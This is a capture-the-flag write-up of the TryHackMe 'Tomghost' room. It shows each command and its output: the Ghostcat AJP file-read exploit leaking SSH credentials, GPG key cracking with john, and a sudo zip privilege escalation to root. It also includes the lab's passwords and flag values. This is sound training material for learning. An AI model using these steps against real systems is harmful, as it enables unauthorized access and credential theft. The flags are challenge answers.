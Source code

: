 # Tomghost

Starting with basic recon:
```sh
nmap -sV $ip -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 08:19 CEST
Nmap scan report for 10.10.46.67
Host is up (0.078s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got a few services running but I can instantly see an application running on Port `8080` named Tomcat. <br/>
So I would just make a quick browser search for known exploits. <br/>

![grafik](https://github.com/Aryt3/writeups/assets/110562298/8f316966-b846-4017-a809-1160fd813237)

Now I could take a look around the website and try to find something but there seem to be a lot of exploits for Tomcat. <br/>
So this leads me to https://www.exploit-db.com/exploits/48143. <br/>
Using the exploit:
```sh
python2 exploit.py 10.10.46.67 -p 8009 -f WEB-INF/web.xml
Getting resource at ajp13://10.10.46.67:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

After successfully retrieving user creds I try to login:
```sh
ssh skyfuck@$ip       
The authenticity of host '10.10.46.67 (10.10.46.67)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.46.67' (ED25519) to the list of known hosts.
skyfuck@10.10.46.67's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ whoami
skyfuck
```

Taking a look around:
```sh
skyfuck@ubuntu:~$ pwd
/home/skyfuck
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

After taking a closer look at those files I want to look around further.
```sh
skyfuck@ubuntu:~$ ls /home/
merlin  skyfuck
skyfuck@ubuntu:~$ ls /home/merlin
user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

Seems like we got our first flag. <br/>
The next thing would be to escalate priviledges.
```sh
skyfuck@ubuntu:~$ sudo -l
[sudo] password for skyfuck: 
Sorry, user skyfuck may not run sudo on ubuntu.
```

Now this didn't work, I could look around more but my guess is that I have to use the 2 files from earlier. <br/>
Copying the files to my local machine:
```sh
scp skyfuck@$ip:/home/skyfuck/* .                               
skyfuck@10.10.46.67's password: 
credential.pgp                                                                          100%  394     2.7KB/s   00:00    
tryhackme.asc                                                                           100% 5144    34.9KB/s   00:00
```

After some research I found a way to use john to bruteforce the .gpg file.
```sh
└─# gpg2john tryhackme.asc > abc.gpg

File tryhackme.asc
                                                                                                                    
└─# ls
abc.gpg  credential.pgp  tryhackme.asc

└─# cat abc.gpg       
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

└─# john --wordlist=Desktop/rockyou.txt abc.gpg            
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
No password hashes left to crack (see FAQ)

└─# john --show abc.gpg                        
tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

1 password hash cracked, 0 left

└─# gpg --import tryhackme.asc      
gpg: /root/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

┌──(root㉿kali)-[/home/kali/tryhackme/tomghost]
└─# gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j   
```

Like this I was able to get the password for user merlin, so now I only need to switch to this user.
```sh
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ whoami
merlin
```

The only thing left now is priv esc so let's see what we got elevated permissions for.
```sh
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

So seeing we can execute the binary zip as root we can take a look at gtfobins. <br/>
Here we find several ways to exploit this binary: https://gtfobins.github.io/gtfobins/zip/.
```sh
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```

Getting the last flag:
```sh
# cd /root/
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}
```
